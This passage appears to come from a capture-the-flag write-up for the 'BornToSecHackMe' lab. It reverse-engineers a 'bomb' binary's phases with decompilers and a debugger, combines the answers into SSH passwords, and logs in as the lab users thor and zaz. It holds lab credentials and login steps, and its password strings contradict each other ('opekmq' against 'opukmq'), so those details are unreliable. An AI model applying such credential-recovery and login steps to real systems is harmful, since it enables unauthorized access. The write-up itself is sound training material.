

There are 2 steps here.\
First it checks if we give only one input to the program and if this input is below 1, if it's the
case then the **bomb** explode.\
Secondly, our **input** is passed as an arguments to the function **func4** and the results is compared to the value
`0x37` so **55** and the bomb explode if it's note the case. Here is the function **func4** decompiled: 




If our input is **less than 2** then the return value will be **1** which is clearly not **55**, if it's **greater**
2 **recursive** call of the function are made, the first one takes our input and substracts it by 1 and the second one
substracts it by 2, then the results is those results added together.

We can  copy the code in **Ghidra** and create a **C** file with it, we need to add the **main** function and tada !

```
gcc ./scripts/phase4.c -o phase4
./phase4
The correcteur number is `9`.
```

#### Phase 5

\
For this one I used **cutter** to decompile the code, which is more readable.

There is a check on our input, its length must be equal to 6 otherwise the **bomb** explode.\
Then a loop is executed, this loop takes each byte of our input, transform it with a correspondance string, **"isrveawhobpnutfg**
and execute a **bitwise** with the value **0xf**, the final string must be equal to **"giants"**.

Here again, we can copy the code and make a little script with it. The script is located at `./scripts/phase5.c`.
When we execute it:

```
gcc ./scripts/phase5.c -o phase5 && ./phase5
The solution to solve phase 5 is: opekmq
```

The solution  is `opukmq`.

#### Phase 6

\

The code performs a sorting of global variables `nodeX` (node1,node2...node6) by using our input.
Let's print these nodes.

```
pwndbg> printf "node1 = %d\nnode2 = %d\nnode 3 = %d\nnode4 = %d\nnode5 = %d\nnode6 = %d\n",
(int)node1, (int)node2, (int)node3, (int)node4, (int)node5, (int)node6

node1 = 253
node2 = 725
node 3 = 301
node4 = 997
node5 = 212
node6 = 432
pwndbg>
```

We can use the hint from the beginning to have an idea of the sorting type.

```
HINT:
P
2
b

o
4
```

It starts with the `node4` which is the biggest node with its value of '997' so it may be a decreasing sort. It this is
the case the solution may be: `4 2 6 3 1 5`.


##### Defuse the bomb
Let's test our solutions.

```
laurie@BornToSecHackMe:~$ ./bomb
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Public speaking is very easy.
Phase 1 defused. How about the next one?
1 2 6 24 120 720
That's number 2.  Keep going!
1 b 214
Halfway there!
9
So you got that one.  Try this one.
opukmq
Good work!  On to the next...
4 2 6 3 1 5
Congratulations! You've defused the bomb!
```

Great ! Our solutions are working, we have to **concatenate** all theses in order to have the **ssh password for thor**.

`Publicspeakingisveryeasy.126241207201b2149opekmq426135`

```
ssh thor@192.168.56.8
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
thor@192.168.56.8's password:
thor@BornToSecHackMe:~$
```

We are **thor** !

### Thor

```
thor@BornToSecHackMe:~$ ls
README  turtle
thor@BornToSecHackMe:~$ cat README
Finish this challenge and use the result as password for 'zaz' user.
```

Again, we are challenged.

```
cat ./turtle

....
Tourne droite de 1 degrees
Avance 1 spaces
Tourne droite de 1 degrees
Avance 1 spaces
Tourne droite de 1 degrees
Avance 1 spaces
Tourne droite de 1 degrees
Avance 1 spaces
Tourne droite de 1 degrees
Avance 1 spaces
Tourne droite de 1 degrees
Avance 1 spaces
Tourne droite de 1 degrees
Avance 1 spaces
Tourne droite de 1 degrees
Avance 50 spaces

Avance 100 spaces
Recule 200 spaces
Avance 100 spaces
Tourne droite de 90 degrees
Avance 100 spaces
Tourne droite de 90 degrees
Avance 100 spaces
Recule 200 spaces

Can you digest the message? :)
```

The file **turtle** is composed of more thant 1460 instructions, they seem to construct a message.
By parsing the instructions we can display this message, let's write a simple python script to do it.
First download the file with the command `scp`.

- `scp thor@192.168.56.8:./turtle . `
- `python3 ./scripts/thor.py`

It writes the word **'SLASH'** it may be the password but at the end, the message asks us if we can **digsest** it.
Digest means encrypted password in cybersecurity, so we can try to hash the password with the command `md5sum`.

```
echo -n 'SLASH' | md5sum
646da671ca01bb5d84dbb5fb2238dc8e -
```

Let's try to ssh as **zaz**.

```
ssh zaz@192.168.56.8
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
zaz@192.168.56.8's password:
zaz@BornToSecHackMe:~$
```


